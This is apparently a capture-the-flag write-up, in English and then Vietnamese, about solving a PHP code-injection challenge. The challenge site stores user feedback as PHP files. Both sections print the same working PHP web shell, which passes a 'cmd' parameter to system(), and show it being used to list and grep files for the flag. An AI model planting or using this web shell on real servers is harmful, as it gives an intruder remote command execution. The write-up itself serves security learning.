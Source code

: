 ![image](https://user-images.githubusercontent.com/109911533/221137626-10d76e4a-d796-4d5f-8803-1a6323f5cb9f.png)<br />

Let's take a look at the site.<br />
![image](https://user-images.githubusercontent.com/109911533/221138227-7ddb028a-928e-4445-a59d-5aac16879380.png)<br />

The site said is under construction,but we can write some recommendations to the site with less than 80 characters. Now let's try sending some text to too see what happened.<br ?>

![image](https://user-images.githubusercontent.com/109911533/221139242-2d6d3322-7898-485a-9ade-7f4069bdf147.png)<br />

Looks like the page is running on php. If you visit that url, you can find your message there.<br />
![image](https://user-images.githubusercontent.com/109911533/221139466-1e29c2df-a19c-42f3-91e4-e437071a2110.png)<br />

So what i tried to do here is, i tried sending different messages to see whether it will just be all php. And it is. When sending different messages, the site wil generate a random php file and save the text on it. So, by asking ChatGPPT about this, i know that this website might be vulnerable to php injection.<br />

This is what i used.<br />
```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

Basically, what this command do is: if the website doesn't santize the the "cmd" parameter, this command will execute, giving you a backdoor to the server rev shell. Then you can execute code like a shell it is.<br />
Let's send it to the server.<br />
After sending it to the server, you can now execute code using the cmd parameter ?cmd= "command"<br />
Running the ls command, i see that it dump out all the php file ... i guess it's not random, but rather randomly choose 1 file and save your message in it.Now we know that it is working, we can simply grep it with "grep -r valentine".<br />

![image](https://user-images.githubusercontent.com/109911533/221144963-bd261812-16ad-409f-9ada-097a5903ec08.png)<br />

And there ya go.<br />
___Flag: valentine{n3ver_g0nn4_give_y0u_up}___<br />

---------------------------------------------------------------------------------------------------------------------------------
HÌnh ảnh có thể xem lại ở trên<br />

Bài này là về php injection.<br />
Thì đầu tiên, bài này đang kêu chúng ta gửi một tin nhắn đến trang web để có thể đưa ra ý kiến về trang web nên như thế nào.<br />

Thì gửi thử "hello bro" tới server, ta thấy web thông báo là tin nhắn của chúng ta được lưu ở một file php. Nên tui đã làm là thử gửi nhiều tin nhắn để xem như thế nào, thì tui thấy là mỗi một tin nhắn sẽ được lưu ở một file php random khác nhau, nên có thể nghĩ theo hướng là php injection.<br />

Thì tui đã sử dụng một command khá là phổ biến có sẵn trên mạng, là:<br />
```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```
Command này được sử dụng khi một web không sử lý những thông tin được input, nếu biến "cmd" không được xử lý kỹ có thể dẫn tới việc chiếm shell web, từ đó có thể thực thi các lệnh trên trang web như là 1 shell. Có thể đọc ở đây: https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/<br />

Gửi lệnh này tới server, sau đó nhận thông báo là tin nhắn được lưu ở một trang, truy cập trang web đó, ta có thể bắt đầu sử dụng các command với parameter ?cmd= command<br />
Sử dụng lệnh ?cmd=ls ta có thể list ra tất cả các file thì có thể thấy có rất nhiều file php, và không có file flag hay flag.txt, nên có thể flag đã nằm một trong những file php.<br />

Nếu xài lệnh cat để kiểm tra thì sẽ rất lâu cho từng file, nên sử dụng lệnh ?cmd=grep -r valentine.<br />
Grep sẽ như một ctrl F, -r(recursively) sẽ là lệnh để tìm liên tục, kiểu như scan từng file một để tìm cho ta chuỗi "valentine". Sau đó nó sẽ in ra tên file chứa chuỗi đó + chuỗi đó.
Và ta có flag.



